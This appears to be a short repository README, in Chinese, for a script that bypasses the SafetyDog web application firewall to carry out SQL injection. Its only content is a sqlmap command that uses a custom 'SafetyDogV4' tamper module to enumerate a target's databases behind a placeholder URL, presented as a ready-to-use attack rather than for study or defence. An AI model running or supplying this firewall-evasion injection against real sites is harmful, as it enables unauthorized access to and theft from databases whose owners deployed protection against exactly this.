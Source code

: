# 最新版本安全狗sql注入绕过脚本
获取数据库
python sqlmap.py -u "http://xxx?id=1" -p id --tamper=SafetyDogV4 -v3 --dbs --fresh-queries
